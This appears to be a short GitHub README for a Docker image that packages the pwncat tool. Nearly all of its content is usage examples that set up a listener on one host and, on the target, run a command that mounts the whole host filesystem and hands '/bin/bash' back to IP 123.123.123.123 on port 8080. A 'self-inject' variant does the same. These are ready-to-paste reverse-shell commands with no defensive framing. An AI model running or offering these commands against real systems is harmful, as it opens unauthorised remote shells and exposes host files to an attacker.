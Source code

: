 # pwncatdocker
Docker image for pwncat

## Build
```
docker build -t adioss/pwncat .
```

## Usage

### pwncat basic connection
```
// on host with ip adress 123.123.123.123, we will wait for connection to have a shell on remote (-l: listen, -k: re-accept new clients)
docker run -ti --rm --network=host adioss/pwncat -l 8080 -k -vv
// equivalent to: docker run -ti --rm --network=host subfuzion/netcat -vl 8080

// target (connects to ip adress '123.123.123.123')
docker run -ti --rm -v /:/mnt -w=/mnt adioss/pwncat -e '/bin/bash' 123.123.123.123 8080  
```


### pwncat self inject connection
```
// source
docker run -ti --rm --network=host adioss/pwncat -l 8080 --self-inject /bin/bash:123.123.123.123:8080

// target (connects to ip adress '123.123.123.123')
nc 123.123.123.123 8080
```